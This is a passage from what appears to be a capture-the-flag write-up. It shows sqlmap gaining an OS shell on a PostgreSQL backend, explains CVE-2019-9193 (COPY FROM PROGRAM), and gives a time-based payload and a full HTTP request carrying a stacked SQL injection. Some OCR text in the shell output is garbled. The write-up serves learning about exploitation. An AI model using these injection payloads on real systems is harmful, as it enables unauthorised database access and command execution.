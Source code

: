 ```
back-end DBMS: PostgreSQL
[15:23:17] [INFO] fingerprinting the back-end DBMS operating system
[15:23:21] [INFO] the back-end DBMS operating system is Linux
[15:23:23] [INFO] testing if current user is DBA
[15:23:24] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[15:23:24] [INFO] retrieved: 1
[15:23:37] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[15:23:37] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] 

[15:23:43] [INFO] retrieved: uid=102(postgres) @id=104(postgrds) grotps=104(postgres),102(ssl-cert)
command standard output: 'uid=102(postgres) @id=104(postgrds) grotps=104(postgres),102(ssl-cert)'
os-shell> 
```

# MANUAL ANALYSIS - SHELL AS POSTGRES

As hackers, understanding how some automation tool managed to execute system commands is crucial for us. Let's dissect it manually.

From the `sqlmap` output, we identified `PostgreSQL` as the backend database. We further verified this manually by inducing the server to sleep for a few seconds using the SQL injection payload `admin||pg_sleep(10)--`.

Upon investigation, we stumbled upon an intriguing CVE (`CVE-2019-9193`). In PostgreSQL versions `9.3` through `11.2`, the `COPY TO/FROM PROGRAM` function enables superusers and users in the `pg_execute_server_program` group to execute arbitrary code within the context of the database's operating system user. This feature, enabled by default, can be exploited to run arbitrary operating system commands on Windows, Linux, and macOS.

To exploit this issue, we needed to stack SQL queries at the injection point. We verified the presence of a `stacked SQL injection` vulnerability. The following request made the server sleep for 10 seconds using stacked queries in SQL injection:

```
POST / HTTP/1.1
Host: admin.megalogistic.com
Cookie: PHPSESSID=e7c7df4d235f97353183e4f3c5d0233b
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 87
Origin: https://admin.megalogistic.com
Referer: https://admin.megalogistic.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=enzy'+AND+password+%3d+md5('admin')%3b+SELECT+pg_sleep(10)%3b--&password=admin
```

